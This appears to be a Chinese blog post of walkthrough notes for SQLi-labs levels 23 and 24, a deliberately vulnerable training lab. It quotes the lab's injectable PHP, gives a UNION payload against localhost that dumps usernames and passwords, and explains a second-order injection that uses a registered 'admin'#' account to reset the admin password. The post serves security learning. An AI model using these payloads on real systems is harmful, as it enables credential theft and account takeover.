 ```yaml
---
 title: Sqlilabs通关笔记(23-24)
 date: 2020-01-07 16:10:35
 tags: SQL注入
 categories: SQL注入
---
```


## 第二十三关 基于GET错误的过滤注释

### 注入点判断
1. 老办法单引号反斜杠试了下确实报错
2. 但注释过不了怀疑注释有过滤
3. 查看源代码,发现将#和--替换成空了
```php
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```
4. 直接上payload
> http://127.0.0.1/sqlilabs2/Less-23/?id=-1' union select 1,(select group_concat(username,password ) from users),3  and  '1' = '1

![2020-1-7-16-19-38](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-16-19-38)

<!--more-->

## 第二十四关 POST二次排序注入-存储型注入

### 注入点判断
1. 感觉界面大变样

![2020-1-7-16-23-42](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-16-23-42)

2. 登录进去又是改密码，猜测又是update语句

![2020-1-7-16-24-13](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-16-24-13)

3. 修改密码加反斜杠重新登录未见报错，查看源代码一探究竟
    - 有新用户注册文件 New_user.php
    - 修改密码文件 pass_change.php
    - 登录文件 login.php
    - 都使用了mysql_real_escape_string函数对注册的参数进行过滤
    - 但在修改密码文件中却是直接调用username参数
    - 猜测可以之间注册一个admin'#用户进而修改admin的密码，代码如下

```php
if (isset($_POST['submit']))
{
	
	
	# Validating the user input........
	$username= $_SESSION["username"];
	$curr_pass= mysql_real_escape_string($_POST['current_password']);
	$pass= mysql_real_escape_string($_POST['password']);
	$re_pass= mysql_real_escape_string($_POST['re_password']);
	
	if($pass==$re_pass)
	{	
		$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
		$res = mysql_query($sql) or die('You tried to be smart, Try harder!!!! :( ');
		$row = mysql_affected_rows();
		echo '<font size="3" color="#FFFF00">';
		echo '<center>';
		if($row==1)
		{
			echo "Password successfully updated";
	
		}
		else
		{
			header('Location: failed.php');
			//echo 'You tried to be smart, Try harder!!!! :( ';
		}
	}
	else
	{
		echo '<font size="5" color="#FFFF00"><center>';
		echo "Make sure New Password and Retype Password fields have same value";
		header('refresh:2, url=index.php');
	}
}
```

因为没有报错注入的条件，时间盲注有点漫长可以尝试脚本注册然后再注入，确实有点麻烦

**但本题目的是：对于存储型的注入,可以先将导致SQL注入的字符预先存到数据库中,当再次调用到这个恶意构造的字符时就可以触发注入**

